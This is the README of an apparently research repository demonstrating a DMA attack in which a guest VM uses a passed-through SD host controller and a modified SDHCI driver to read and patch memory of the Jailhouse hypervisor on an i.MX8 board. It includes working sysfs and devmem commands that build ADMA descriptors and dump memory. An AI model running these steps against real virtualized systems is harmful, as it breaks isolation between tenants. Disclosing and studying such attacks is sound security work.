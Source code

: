 # Breaking isolation of Jailhouse with DMA and I/O passthrough
This repository contains a demo and the source code of a DMA attack on the hypervisor Jailhouse on a platform without IOMMU (IMX8QMEVK).  The attacking VM has directly assigned an SD Host Controller (I/O passthrough), which allows it to access an SD card. Through the DMA-capabilities of the SD Host controller and a modified SDHCI driver, the attacking VM is able to read or write to any memory location and bypass the hypervisor.  The driver allows low-level control of ADMA descriptor tables to perform DMA operations. 

**Advertisement**:

​	**The code is given as is and serves simply as a demonstration of a straightforward attack in a virtualized system. For this reason, this modified driver is neither optimized nor developed to run on different environment (e.g. ADMA 64-bit).**



**Demonstration of the attack allowing a VM to dump and patch hypervisor code and data through DMA of the SD host controller: https://www.youtube.com/watch?v=bvEQDTcnRAE**




### Env/
- Root Linux cell: imx8mq.c

- Linux inmate cell: inmate.c
- Root Linux device tree: imx8mq-evk-root.dts
- Linux inmate device tree: inmate.dts
- Script to lunch Jailhouse and the inmate: init_jh

### ADMA/
- Modified SDHCI driver to control ADMA tables: **sdhci-esdhc-imx-dbg.c**

- Convenient script to dump memory region using ADMA: dma_dump.sh

### Experimental environement:

Target platform: NXP i.MX8MQ-evk
Linux version: 6.1.55+g770c5fe2c1d1 (oe-user@oe-host) (aarch64-poky-linux-gcc (GCC) 12.3.0, GNU ld (GNU Binutils) 2.40.0.20230703)

**Yocto Build configuration:**
	BB_VERSION           = "2.4.0"

​	BUILD_SYS            = "x86_64-linux"

​	NATIVELSBSTRING      = "universal"

​	TARGET_SYS           = "aarch64-poky-linux"

​	MACHINE              = "imx8mqevk"

​	DISTRO               = "fsl-imx-wayland"

​	DISTRO_VERSION       = "6.1-mickledore"

​	TUNE_FEATURES        = "aarch64 armv8a crc crypto"



### Useful control functions on ADMA descriptor tables :

```c
#Allocates 2 pages for the ADMA descriptor table
echo -n -e '\x02\x00\x00\x00'  > /sys/devices/platform/soc\@0/soc\@0\:bus\@30800000/30b40000.mmc/request_desc_table
```

```c
#Inserts descripor 0xfdc01000 - 0x00000023 at position 1 in the ADMA descriptor table
echo -n -e '\x00\x10\xc0\xfd\x23\x00\x00\x00\x01\x00\x00\x00'  > /sys/devices/platform/soc\@0/soc\@0\:bus\@30800000/30b40000.mmc/insert_desc
```

```c
#Fills the descriptor table with arbitrary descriptors 
echo -n -e '\x00\x00\xe7\xfa\x21\x00\x00\x10'  > /sys/devices/platform/soc\@0/soc\@0\:bus\@30800000/30b40000.mmc/fill_custom_desc
```

```c
#Resets the ADMA (does not deallocate the ADMA descriptor table)
cat /sys/devices/platform/soc\@0/soc\@0\:bus\@30800000/30b50000.mmc/adma_rst_addr
#Free the allocated pages for the descriptor table
cat /sys/devices/platform/soc\@0/soc\@0\:bus\@30800000/30b40000.mmc/free_desc_table  
#Set ADMA_SYS_ADDR to 0xfaf00000 
./busybox-1.35.0/busybox devmem 0x30b40058 32 0xfaf00000
```

```c
#Dumping 1KB of RAM from memory 0xFDC00000 to file /mnt/out on the SD card
insmod sdhci-esdhc-imx-dbg.ko 
mount /dev/mmcblk2p2 /mnt/ && ls /mnt/
//Dump 1k bytes memory from address 0xFDC00000 in file /mnt/out 
echo -n -e '\x00\x00\xc0\xfd'  > /sys/devices/platform/soc\@0/soc\@0\:bus\@30800000/30b50000.mmc/adma_read && dd if=/dev/random of=/mnt/out bs=1k count=1 && cat /sys/devices/platform/soc\@0/soc\@0\:bus\@30800000/30b50000.mmc/adma_rst_addr && umount /mnt/ && mount /dev/mmcblk2p2 /mnt/ && hexdump -C /mnt/out
```

